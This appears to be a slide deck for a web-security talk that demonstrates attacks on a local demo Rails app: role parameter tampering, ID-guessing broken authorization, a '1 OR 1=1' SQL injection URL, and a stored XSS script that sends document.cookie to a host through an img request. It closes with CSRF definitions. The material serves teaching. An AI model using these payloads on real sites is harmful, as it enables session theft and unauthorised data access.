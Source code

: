 !SLIDE bullets incremental small
## Exploits ##
* > Piece of *software*, a *chunk of data*, or *sequence of commands*
* > that *takes advantage* of a *bug*, *glitch or vulnerability*  
* > in order to *cause* *unintended behavior* to occur on computer software, hardware, or something electronic.

!SLIDE bullets incremental small
## ... ##
* > Includes such things as *gaining control* of a computer system or 
* > allowing *privilege escalation* or a *denial of service attack*.

!SLIDE
### Parameter Manipulation ##
	@@@ html
	<form accept-charset="UTF-8" action="/users" method="post">
	<input id="user_email" name="user[email]" size="30" type="text" value="" />
	<input id="user_password" name="user[password]" size="30" type="password" />
	<input type="submit" value="Create" />
	</form>


!SLIDE
    @@@ html
    <select id="user_role_id" name="user[role_id]">


!SLIDE full-page
![Here we see a tamper data screenshot ...](tamper1.png)


!SLIDE full-page
![Here we see an admin saved screenshot ...](admin_saved.png)


!SLIDE bullets incremental
### Broken Authorization ###
* Use *public* computer, you do not follow *log out* link and close browser. Another person *checks* that computer *browsing history*
* http://localhost:3000/raises/approve/**12**


!SLIDE bullets incremental
### SQL Injection ###
* What *address* is *search* going through ...
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1000.00**
* *Testing the waters*
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1'**


!SLIDE full-page
![Here we see an admits injection screenshot ...](admits_injection.png)


!SLIDE
### Lets scape a query snippet ###
    @@@ javascript
    alert(escape('1 OR 1=1'))


!SLIDE bullets incremental
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1+OR+1%3D1**
* *Surprise!*


!SLIDE full-page
![Here we see an succesful attack screen ...](raises1.png)


!SLIDE bullets incremental small
### Cross-Site Scripting ###
* > Type of computer security *vulnerability* typically found in *web* applications 
* > that *enables* malicious attackers to *inject client-side script* into web pages viewed by other users.


!SLIDE bullets incremental
### Harming script ###
* &lt;script&gt;document.write('*&lt;img src="http://localhost:80/*' + **document.cookie** + '"* &gt;*')&lt;/script&gt;


!SLIDE full-page
![Here we see an succesful attack screen ...](xss1.png)


!SLIDE full-page
![Here we see an succesful attack screen ...](xss2.png)


!SLIDE full-page
![Here we see an succesful attack screen ...](xss3.png)


!SLIDE
    @@@ html
    <tr>
      <td><a href="/users/2">poor@test.com</a></td>
      <td><script>document.write('<img src="http://localhost:80/' + document.cookie + '" >')</script></td>
      <td>Employee</td>
      <td>5.0</td>
      <td>
        <a href="/users/2">Show</a>
        |
        <a href="/users/2/edit">Edit</a>
        |
        <a href="/users/2" data-confirm="Are you sure?" data-method="delete" rel="nofollow">Destroy</a>
      </td>
    </tr>


!SLIDE bullets incremental small
### Cross-Site Request Forgery ###
* > Also known as a *one-click attack* or *session riding* and abbreviated as CSRF or XSRF
* > Type of *malicious exploit* of a website whereby *unauthorized commands* are *transmitted from* a user that the *website trusts*.

!SLIDE bullets incremental
### XSS vs CSRF ###
* *XSS* exploits the trust a *client* has *for* a *site*
* *CSRF* exploits the trust a *site* has for a *client*
